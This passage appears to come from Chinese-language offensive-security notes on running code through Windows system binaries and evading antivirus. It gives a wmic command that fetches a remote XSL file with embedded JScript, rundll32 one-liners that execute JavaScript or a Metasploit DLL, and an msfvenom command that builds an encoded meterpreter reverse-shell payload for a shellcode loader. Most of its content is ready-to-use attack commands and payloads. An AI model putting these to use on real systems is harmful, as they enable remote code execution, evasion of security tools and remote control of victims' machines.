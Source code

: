 ### wmic

已经被添加到环境变量

poc
```bash
wmic os get /FORMAT:"http://example.com/evil.xsl"
```
```xml
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	]]> </ms:script>
</stylesheet>
```

参考:[利用wmic调用xsl文件的分析与利用](https://3gstudent.github.io/利用wmic调用xsl文件的分析与利用/)
这里还有一个poc https://raw.githubusercontent.com/kmkz/Sources/master/wmic-poc.xsl

### rundll32

Rundll32.exe是指“执行32位的DLL文件”。它的作用是执行DLL文件中的内部函数,功能就是以命令行的方式调用动态链接程序库。已经加入环境变量。

```bash
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

也可以去执行msf生成的dll

```bash
rundll32.exe shell32.dll,Control_RunDLL c:\Users\Y4er\Desktop\1.dll
```

---

在这我们先简单介绍这几种，还有`compiler.exe` `odbcconf` `psexec` `ftp.exe`等等。在这里给出参考连接

micro8前辈 https://micro8.gitbook.io/micro8/contents-1#71-80-ke

## payload分离免杀

在这里也只介绍两种分离免杀的姿势

### shellcode loader

借助第三方加载器，将shellcode加载到内存中来执行。

https://github.com/clinicallyinane/shellcode_launcher

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 -e x86/shikata_ga_nai -i 5 -f raw > test.c
```
